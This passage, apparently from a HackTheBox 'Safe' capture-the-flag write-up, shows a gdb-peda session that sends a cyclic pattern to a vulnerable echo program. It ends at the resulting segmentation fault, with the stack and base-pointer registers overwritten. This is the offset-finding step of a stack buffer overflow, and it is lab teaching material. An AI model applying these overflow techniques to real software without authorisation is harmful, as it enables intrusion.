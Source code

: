 ```

gdb-peda$ set follow-fork-mode parent

```

I’ll also create a pattern:

```

gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

```

Now I’ll run the program, and enter the pattern:

```

gdb-peda$ r
Starting program: /media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp                              
[Detaching after vfork from child process 15829]
 14:20:10 up 13 days,  2:04, 32 users,  load average: 1.24, 1.22, 1.10           

What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAA
YAAwAAZAAxAAyA
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

```

On hitting enter, I reach a crash:

```

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7ecead4 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7f9f580 --> 0x0 
RSI: 0x405260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...
)
RDI: 0x0 
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffdfb8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4011ac (<main+77>:       ret)
R8 : 0xc9 
R9 : 0x0 
R10: 0x4003e0 --> 0x6972700073747570 ('puts')
R11: 0x246 
R12: 0x401070 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe090 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:  call   0x401030 <puts@plt>
   0x4011a6 <main+71>:  mov    eax,0x0
   0x4011ab <main+76>:  leave  
```